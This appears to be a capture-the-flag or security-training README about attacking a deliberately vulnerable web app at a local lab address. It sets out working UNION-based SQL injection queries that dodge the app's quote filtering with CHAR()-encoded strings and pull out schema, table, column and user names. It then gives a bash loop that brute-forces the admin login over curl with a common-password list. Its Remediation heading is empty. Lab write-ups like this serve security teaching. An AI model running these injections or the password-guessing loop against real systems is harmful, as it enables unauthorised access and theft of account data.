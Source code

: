# Brute Force

From exploiting [SQL Injection Vulneribilities](../0x0a-sql_injection-members/README.md), it is recoginzed that the schema `Member_Brute_Force` existed on the database. We know the schema exists, but certainly don't know what tables, or other information exists in the schema.

But using the query `1 and 1=1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='Member_Brute_Force'` will give an error, as the quotation would cause an error from the php.

In order to bypass, following script will create a set of char:

```
$ python -c 'print([ord(c) for c in "Member_Brute_Force"]);'
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
```

so this can be directly used as this
```
where table_schema='Member_Brute_Force'
where=CHAR([77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101])

#query
1 and 1=1 union select table_name,2 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)
```

by doing so, we can find `db_default` table in `Member_Brute_Force` schema:

<img width="1186" alt="image" src="https://user-images.githubusercontent.com/46742040/202880957-1ac03f76-c4e2-4c15-a9af-74c0bc92f5d8.png">

In order to take a look at the `db_default` table in `Member_Brute_Force` schema, following query needs to be executed, but as the php causes an error, it needs to be changed as well

```
#before
1 and 1=1 UNION SELECT column_name, 2 FROM information_schema.tables WHERE table_schema='Member_Brute_Force' and table_name='db_default'
#after
1 and 1=1 union select column_name, 2 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) and table_name=CHAR(100, 98, 95, 100, 101, 102, 97, 117, 108, 116)
```

By doing so, we can acknowledge there are four columns `id`, `username`, `password`

<img width="1223" alt="image" src="https://user-images.githubusercontent.com/46742040/202880932-0224ef49-d154-4254-ad4b-629b66adbf1c.png">

To check username in the `db_default` table, this query needs to be run

```
1 and 1=1 union select username,2 from Member_Brute_Force.db_default
```

Once we run the query, we know there are two users `admin`, and `root` exists for login.


Of course the password can be retrieved with sending a query to the `Member_Brute_Force` table, we can also try using the Brute Force Method. In order to do so, the following script can be run, with password in [here](./2020-200_most_used_passwords.txt), [2020-200-most_used_passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt) from [SecLists](https://github.com/danielmiessler/SecLists)


```
cat 2020-200_most_used_passwords.txt| while read password; do flag=$(curl -L "http://192.168.1.17:4242/?page=signin&username=admin&password=${password}&Login=Login" 2>/dev/null |  grep "flag" | wc -l); if [[ "${flag}" -eq 1 ]]; then echo "Success: The password is ${password}";break 2; fi; done
```


## Remediation

